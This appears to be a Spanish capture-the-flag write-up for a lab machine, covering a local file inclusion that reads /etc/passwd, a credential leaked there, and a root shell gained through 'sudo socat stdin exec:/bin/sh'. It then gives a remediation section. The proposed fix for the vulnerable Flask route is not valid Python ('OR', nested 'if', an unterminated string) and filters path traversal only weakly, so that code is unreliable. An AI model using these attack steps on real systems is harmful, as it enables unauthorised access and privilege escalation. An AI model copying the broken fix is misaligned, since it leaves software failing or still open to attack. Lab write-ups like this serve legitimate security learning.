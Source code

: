 # Inclusion
Room sencillita para explotar un LFI

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```
## Enum
### HTTP

Vemos que los articulos se indexan mediante el nombre directo del archivo
```
http://10.10.30.43/article?name=lfiattack
```
Probamos a indexar algún archivo mas sensible como /etc/passwd
```
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
```
Usamos esas creds en el ssh y pa dentro

## Privesc
```
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
Y simplemente ejecutamos 
```
sudo socat stdin exec:/bin/sh
```
Y listo, ya somos root

# Analisís de la intrusión
### LFI 
El codigo utilizado permite indexar archivos de manera arbitraria 
### Insecure password mangment
Por algun motivo las cred de falconfeast estan en el passwd 
### Privileged socat execution
El usuario falconfeast puede utilizar socat como root, lo cual nos permitio elevar privilegios a root

# Soluciones
### LFI 
Se podría corregir el codigo para evitar la lectura de archivos,asi como tmb seria recomendable limitar el acceso a ciertos archivos a www-data mediante el uso de AppArmor
#### Código
La función culpable es la siguiente
```python
@app.route('/article', methods=['GET'])
def article():

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    try:
        template = open('/home/falconfeast/articles/{}'.format(page)).read()
        return render_template('show.html', data=template)
    except Exception as e:
        template = e

    return render_template('article.html', template=template)
```
Si hacemos unos pequeños ajustes podemos evitar los principales vectores de ataque LFI sin problema
```python
@app.route('/article', methods=['GET'])
def article():

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    try:
        if(("/" in page ) OR (if "%252e" in page) OR (if '\' in page)):
            pass
        else:
            template = open('/home/falconfeast/articles/{}'.format(page)).read()
            return render_template('show.html', data=template)
    except Exception as e:
        template = e

    return render_template('article.html', template=template)
```
Con esto tenemos bastante solucionado 
### Privileged socat execution
Permitir a un usuario regular ejecutar socat como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto
